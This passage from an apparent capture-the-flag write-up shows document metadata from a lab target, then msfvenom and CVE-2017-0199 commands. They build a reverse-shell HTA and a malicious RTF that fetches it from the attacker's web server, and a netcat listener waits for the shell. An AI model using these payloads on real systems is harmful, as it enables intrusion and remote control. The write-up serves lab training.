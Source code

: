 ```
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
Revision Number                 : 4
Create Date                     : 2017:10:31 18:42:00Z
Modify Date                     : 2017:10:31 18:51:00Z
Template                        : Normal.dotm
Total Edit Time                 : 5 minutes
Pages                           : 2
Words                           : 299
Characters                      : 1709
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 14
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : 
Links Up To Date                : No
Characters With Spaces          : 2004
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```

With this information I proceed to utilize the [CVE-2017-0199 Exploit toolkit ](https://github.com/bhdresh/CVE-2017-0199)by creating the HTA and RTF payloads

```
┌──[Mon Nov  7 11:56:53 PM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=443 -f hta-psh -o thescriptkid.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: thescriptkid.hta
                                                                                                                                                                  
┌──[Mon Nov  7 11:58:24 PM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# python2 /opt/CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -t RTF -w DNS.RTF -u http://$tun0/thescriptkid.hta
Generating normal RTF payload.

Generated DNS.RTF successfully
```

Starting the webserver and netcat listener

```
┌──[Tue Nov  8 12:01:01 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# python3 -m http.server 80                                                                                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──[Tue Nov  8 12:02:37 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

